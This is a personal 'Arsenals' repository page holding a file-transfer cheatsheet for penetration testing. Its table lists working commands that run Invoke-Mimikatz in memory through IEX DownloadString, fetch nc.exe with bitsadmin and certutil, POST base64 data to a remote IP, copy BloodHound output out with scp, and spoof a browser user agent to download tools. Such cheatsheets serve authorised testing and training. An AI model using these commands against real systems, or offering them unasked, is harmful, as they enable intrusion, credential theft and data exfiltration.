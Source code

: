 # Arsenals

This is my personal safe for arsenals. Feel free to refer and use at anytime. You can also refer to this [arsenals](arsenals) for any extra commands (`Ctrl+f` will definitely help)

**_Disclaimer: Do not use this command for illegal use. Any action you take upon the information on this repo is strictly at your own risk _**

## File Transfer Cheatsheet

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
